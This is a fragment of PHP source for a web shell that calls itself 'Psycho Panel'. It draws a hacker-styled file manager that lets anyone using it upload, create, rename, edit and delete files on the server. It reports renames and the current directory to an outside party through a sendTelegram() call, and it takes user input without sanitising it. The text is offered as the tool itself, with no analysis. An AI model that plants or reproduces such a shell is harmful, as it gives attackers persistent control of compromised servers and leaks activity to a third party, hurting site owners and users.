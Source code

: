     </form></body></html>';
    exit;
}

if (isset($_POST['renamefrom']) && isset($_POST['renameto'])) {
    rename($_POST['renamefrom'], $_POST['renameto']);
    sendTelegram("[RENAME] ".$_POST['renamefrom']." to ".$_POST['renameto']." at ".getcwd());
    header("Location: ".$_SERVER['PHP_SELF']."?path=".urlencode(getcwd()));
    exit;
}

// === SHELL DISPLAY ===
echo '<html><head><title>Psycho Panel</title><meta name="viewport" content="width=device-width, initial-scale=1"><style>
body{background:#111;color:#0f0;font-family:monospace;margin:10px;}
a{color:#0f0;text-decoration:none;}
a.folder{font-weight:bold;color:#0ff;}
table{width:100%;border-collapse:collapse;}
td,th{border:1px solid #0f0;padding:8px;text-align:left;word-break:break-word;}
form.inline{display:inline;}
input,button{background:#222;color:#0f0;border:1px solid #0f0;padding:5px;margin:5px;}
button{cursor:pointer;}
button:hover{background:#090;}
@media(max-width:600px){td,th{font-size:12px;}}
</style></head><body>';

echo '<h1>Psycho</h1><div>';
echo '<form method="post" enctype="multipart/form-data" class="inline">
<input type="file" name="upload"><button type="submit">Upload</button></form>';
echo '<form method="post" class="inline">
<input type="text" name="newfile" placeholder="New File"><button type="submit">New File</button></form>';
echo '<form method="post" class="inline">
<input type="text" name="newdir" placeholder="New Dir"><button type="submit">New Dir</button></form>';
echo '<form method="post" action="?logout=1" class="inline">
<button type="submit">Logout</button></form>';
echo '</div><a href="?path='.urlencode(dirname($path)).'">[Back]</a>';

echo '<table><tr><th>Name</th><th>Action</th></tr>';
foreach($files as $file){
    if ($file == '.') continue;
    echo '<tr><td>';
    if (is_dir($file)) {
        echo '<a class="folder" href="?path='.urlencode(realpath($file)).'">'.$file.'</a>';
    } else {
        echo '<a href="?edit='.urlencode($file).'">'.$file.'</a>';
    }
    echo '</td><td>';
    echo '<form method="post" action="?rename=1" class="inline">
    <input type="hidden" name="renamefrom" value="'.$file.'">
    <input type="text" name="renameto" placeholder="New name">
    <button type="submit">Rename</button></form>';
    echo '<a href="?delete='.urlencode($file).'">Delete</a>';
    echo '</td></tr>';
}
echo '</table></body></html>';

if (isset($_GET['logout'])) {
    session_destroy();
    header("Location: ".$_SERVER['PHP_SELF']);
    exit;
}
?>
